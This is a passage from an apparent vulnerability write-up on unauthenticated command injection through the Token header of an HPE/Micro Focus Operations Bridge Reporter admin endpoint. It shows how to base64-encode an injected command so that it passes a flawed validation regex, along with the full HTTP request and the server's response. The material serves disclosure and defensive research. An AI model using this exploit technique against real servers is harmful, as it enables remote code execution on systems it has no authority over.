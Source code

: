 > Snippet 9: *ValidVarChar*

Weirdly, this has a major bug: even though '=' and '+' are valid base 64 encoding characters, they are not accepted by the regular expression validating it!

This means that the command we have to inject has to be carefully base 64 encoded to not have such characters.

For example if we want to inject:

```
`whoami>/tmp/who`
```

This will be encoded to *YHdob2FtaT4vdG1wL3dob2A=*, which contains a '=' character, and therefore will be rejected by the application before it reaches the injection point. But if we add a space after 'who':

```
`whoami>/tmp/who `
```

... it will be encoded to *YHdob2FtaT4vdG1wL3dobyBg*, which executes the same command but does not have any "illegal" characters.

To perform the command injection we put the base 64 string in the *Token* header and send the HTTP request:

```
DELETE /AdminService/urest/v1/LogonResource HTTP/1.1
Host: mfobr.nat:21412
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://mfobr.nat:21412/OBRApp/
Token: YHdob2FtaT4vdG1wL3dobyBg
Connection: close
```

The server will respond with HTTP 500 error:

```
HTTP/1.1 500 Internal Server Error
Content-Type: application/json
Content-Length: 353
Date: Sun, 19 Apr 2020 21:09:23 GMT
Connection: close
Server: SHR

{
  "status" : 500,
  "code" : 500,
  "message" : "An error occurred. Please contact your system administrator",
  "developerMessage" : "An error occurred. Please contact your system administrator",
  "args" : "An error occurred. Please contact your system administrator",
  "moreInfo" : "mailto:support@hpe.com",
  "appCode" : "AUTHENTICATION_FAILED"
}
```
